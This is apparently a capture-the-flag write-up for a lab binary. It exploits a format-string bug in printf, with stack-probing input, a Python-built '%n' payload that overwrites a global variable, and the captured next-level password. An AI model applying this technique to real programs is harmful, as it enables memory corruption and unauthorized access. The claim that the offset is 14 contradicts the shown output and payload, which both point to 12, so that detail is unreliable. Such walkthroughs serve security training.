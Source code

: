 In this level, the program contains a call to the fgets function, which is protected against buffer overflow:
```
=> 0x804847a <n+35>:	call   0x8048350 <fgets@plt>
```
We can see a call to printf with the user input as the string argument:
```
=> 0x8048450 <p+12>:	call   0x8048340 <printf@plt>
```
The program makes a comparison with an uninitialized variable:
```
0x804848d <n+54>:	mov    eax,ds:0x8049810
=> 0x8048492 <n+59>:	cmp    eax,0x1025544
```
If this check succeeds, the .pass file is printed using the system call:
```
system("/bin/cat /home/user/level5/.pass")
```
To exploit the program, we will use a Format String Attack.
We need to modify the variable located at `0x08049810`.
```
./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff764 0xb7fd0ff4 (nil) (nil) 0xbffff728 0x804848d 0xbffff520 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
The offset is 14. Now we construct the payload for exploitation:
```
$> python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/payload4
$> cat /tmp/payload4 - | ./level4
```
Running the payload should overwrite the variable and trigger the system call with the desired argument, revealing the content of the .pass file:
```
$ cat /home/user/level5/.pass
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

